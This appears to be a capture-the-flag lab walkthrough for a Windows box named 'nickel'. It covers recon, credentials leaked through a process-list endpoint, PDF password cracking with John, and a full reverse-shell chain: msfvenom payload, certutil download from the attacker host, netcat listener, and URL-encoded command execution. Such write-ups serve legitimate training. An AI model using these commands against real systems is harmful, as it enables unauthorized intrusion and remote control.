# Starting off with Nmap scan:
`nmap -A [ip]`

Found Microsoft HTTPAPI/2.0



Visit port 8089 in browser:



Click on the buttons:



Redirected to another IP at port 333333

# Try to curl port 33333 on the target:



Notice  that curling list-running-procs on port 33333 on target returns 'Cannot "GET"' message

Trying POST

Looked up how to send a post request using curl and found:

`curl -X POST http://192.168.144.99:33333/list-running-procs`



Looks like it's missing a content length. I looked up how to add one using curl:

Using `curl -d ""` allows to specify content length in the request:

Tried this:

`curl -d "1" -X POST http://192.168.144.99:33333/list-running-procs`



Awesome, got the system process list. Found an interesting one that has what appears to be a user name and password from a cmd session:



username: ariah
pass: Tm93aXNlU2xvb3BUaGVvcnkxMzkK

The password seems to be encrypted or encoded. I tried the simple base 64 decode in Kali, and it worked to show what seems like a password:



user: ariah
password: NowiseSloopTheory139

Tried to login using ftp with the newly discovered creds:



Checked for any files:



Found Infrastructure.pdf

Downloaded Infrastructure.pdf:



Tried to open it, but it's password protected. Tried the password for ariah, but that did not work:



# Using John to get it. Use pdf2john.pl:

`/usr/share/john/pdf2john.pl Infrastructure.pdf > InfraPDFhash`



Didn't work properly. Since the above screenshot said the pdf file may not have been transferred properly, I decide to try to login using ssh:

`ssh ariah@192.168.144.99`



Okay, there we go. I'm now on the machine. Let's browse for files:

Found the local.txt in the Desktop:



Found ftp directory on the c drive. Maybe I can get that pdf from here instead:



# Decide to use scp to get the file:

`scp ariah@192.168.144.99:C:/ftp/Infrastructure.pdf .`



# Trying John again:



Seems to have worked this time:



Running John to try and crack the pdf:



Updated John command to specify rockyou.txt:



pdf pass: ariah4168

Finally unlocked the pdf:



# Ran netstat on the machine logged in as ariah to check ports that these servers could be running on:



Some ports that didn't show up in the nmap scan. Interesting.

Checking the http://nickel/? command endpoint on the system:

`curl http://nickel/?whoami`



# Construct a reverse shell to be executed on the temporary command endpoint:

- Using msfvenom to create the shell.exe (since this is a windows machine)

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.144 LPORT=4444 -f exe > shell.exe`

dissecting the command:
-p = payload 
LHOST = my attack machine IP (the one for tun0 for the VPN I'm on)
LPORT = local attack machine port to listen on
-f = file type for the payload shell
-> = write to a file



- Start webserver from directory where shell lives now:

`python3 -m http.server 80`



- Use certutil to get the shell.exe from the attacker machine onto the target:

`certutil.exe -urlcache -f http://192.168.49.144/shell.exe shell.exe`





- Kill python server on attack machine and start netcat listener on port specified in payload:

`nc -nlvp 4444`



Make sure we can use curl to find the file on victim machine when going through command endpoint before trying to execute the shell.exe:

`curl http://nickel/?'cmd /c dir C:\Users\ariah'`



malformed url typically means the string needs to be url encoded
I'm trying to use https://www.urlencoder.org/

cmd /c dir C:\Users\ariah becomes cmd%20%2Fc%20dir%20C%3A%5CUsers%5Cariah

Using this in place of the desired command in the URL on the target like so:

`curl http://nickel/?cmd%20%2Fc%20dir%20C%3A%5CUsers%5Cariah`

produces the following:



Okay, now that the URL is formed properly, I should be able to execute the shell:

Running cmd /c C:\Users\ariah\shell.exe would normally do it. So I just need to URL encode this command like I did the previous one:



The full command should be:

`curl http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5Cshell.exe`

This was not working for whatever reason with the port 4444 and the payload I specified earlier so I instead created a new one and used port 80 with netcat to listen. This is the command used to generate the new payload:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.144 LPORT=80 -f exe > f.exe`



I then uploaded this to the target as g.exe using this command:

`certutil.exe -urlcache -f http://192.168.49.144/f.exe g.exe`



Started my netcat listener on port 80:

`nc -nlvp 80`



Encoding the appropriate command for the URL:



Ran the command on the target to execute the g.exe:

`curl http://nickel/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5Cg.exe`



And watched the shell come to my netcat listener:

